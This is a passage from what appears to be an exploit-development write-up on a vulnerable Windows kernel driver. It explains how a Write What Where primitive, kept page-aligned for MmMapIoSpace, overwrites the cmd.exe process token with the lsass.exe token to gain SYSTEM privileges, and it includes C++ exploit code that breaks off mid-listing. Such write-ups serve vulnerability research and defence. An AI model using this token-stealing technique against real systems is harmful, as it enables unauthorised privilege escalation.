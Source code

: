 So now at this point I had the location and values of every thing I cared about and it was time to leverage the Write What Where routine we had found.

### Leveraging Write What Where
The problem I was facing was that I need my calls to `MmMapIoSpace` to be page-aligned so that the calls remain stable and we don't get any unnecessary BSODs.

So let's picture a page of memory as a line.

<------------MEMORY PAGE------------>

We can only write in page-size chunks; however, the value we want to overwrite, the value of the `cmd.exe` process's `Token`, is most-likely not page-aligned. So now we have this:

<----offset to TOKEN----------------->

I could do a direct write at the exact address of this `Token` value, but my call to `MmMapIoSpace` would not be page-aligned. 

So what I did was one more Read What Where call to store everything on that page of memory in a buffer and then overwrite the `cmd.exe` `Token` with the `lsass.exe` `Token` and then use *that* buffer in my call to the Write What Where routine. 

So instead of an 8 byte write to simply overwrite the value, I'd be opting to completely overwrite that entire page of memory but only changing 8 bytes, that way the calls to `MmMapIoSpace` stay clean.

You can see some of that math in the code snippet below with references to `modulus`. Remember that the Write What Where utilized the input buffer of `DeviceIoControl` as the buffer it would copy over into the kernel memory:

```cpp
if (!DeviceIoControl(
        hFile,
        READ_IOCTL,
        &input_buff,
        0x40,
        output_buff,
        modulus + 0xc,
        &bytes_ret,
        NULL))
    {
        cout << "[!] Failed the read operation to copy the cmd.exe page...\n";
        cout << "[!] Last error: " << hex << GetLastError() << "\n";
        exit(1);
    }

    PBYTE results = (PBYTE)((INT64)output_buff + 0xc);

    PBYTE cmd_page_buff = (PBYTE)VirtualAlloc(
        NULL,
        modulus + 0x8,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
   

    DWORD num_of_bytes = modulus + 0x8;

    INT64 start_address = cmd_token_address;
    cout << "[>] cmd.exe token located at: " << hex << start_address << "\n";
    INT64 new_token_val = system_tokens.token_value[0];
    cout << "[>] Overwriting token with value: " << hex << new_token_val << "\n";

    memcpy(cmd_page_buff, results, modulus);
    memcpy(cmd_page_buff + modulus, (void*)&new_token_val, 0x8);

    // PhysicalAddress
    // NumberOfBytes
```
